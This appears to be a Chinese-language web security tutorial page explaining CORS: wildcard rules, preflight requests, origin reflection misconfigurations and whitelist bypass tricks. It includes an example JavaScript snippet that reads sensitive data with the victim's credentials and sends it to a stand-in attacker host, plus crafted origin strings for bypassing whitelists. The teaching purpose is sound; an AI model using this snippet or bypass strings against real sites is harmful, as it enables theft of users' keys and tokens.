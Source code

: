 CORS不支持使用通配符来匹配所有子域,如
```
Access-Control-Allow-Origin: *.a.com
```  
该方式是不支持的,唯一支持的通配符是只能接受全部站点.
```
Access-Control-Allow-Origin: *
```  
且通配符`*`和Header`Access-Control-Allow-Credentials: true`不能共存  
### CORS预检
在CORS规范中还有一个要求,在某些可能对服务器产生影响的请求方法发送前,浏览器需要先发送一个OPTIONS请求携带相关请求信息来确定服务器是否接受后续该要发送的请求,只有同时满足以下条件的请求才不需要先发送OPTIONS请求.  
1. 允许的HTTP请求方法: GET,HEAD,POST.  
2. 允许HEADER字段: Accept,Accept-Language,Content-Language,Content-Type,Range,其余Header被视为不安全的Header.  
3. 允许的Content-Type: text/plain,multipart/form-data,application/x-www-form-urlencoded.    

任何不同时满足以上条件的跨域请求都会需要先发送OPTIONS请求来确定服务器是否接受后续的请求.
### 客户端指定的Access-Control-Allow-Origin头 
Origin头:当发生跨域请求，或者同域时发送post请求，就会自动携带origin请求头,请求头origin表明了请求来自于哪个站点。包括且仅仅包括协议、域名和端口，并不包含任何路径信息.  

一些应用因为要维护大量的白名单域名与自己进行通信,这时候则会采取直接从请求的`Origin`Header来自动设置`Access-Control-Allow-Origin`而没有任何检查.  
```http
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```  
如果响应包含任何敏感信息，如API密钥或CSRF令牌，则可以通过在网站上放置以下脚本来获取这些信息。  
```js
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='//malicious-website.com/log?key='+this.responseText;
};
```  
### Origin headers白名单绕过
因为CORS不支持`*.domain`的方式来匹配,有些应用会建立一个白名单,然后将请求中的`Origin`Header字段与白名单内的域名进行匹配,如果在白名单内则自动设置对应的`Access-Control-Allow-Origin`头.  
而白名单的实现方式则可能会造成绕过,如往往只匹配url开头或者结尾,或者使用一些不严重的正则表达式.  
只匹配`main.com`结尾->`evilmain.com`.  
只匹配`main.com`开头->`main.com.evil.com`
### 特殊字符
使用一些特殊字符绕过正则表达式检测,比如`{`,`_`.
![](2023-05-22-16-14-51.png)  
`victimdomain.com{.attacker.com`浏览器实际解析时为`attacker.com`.  
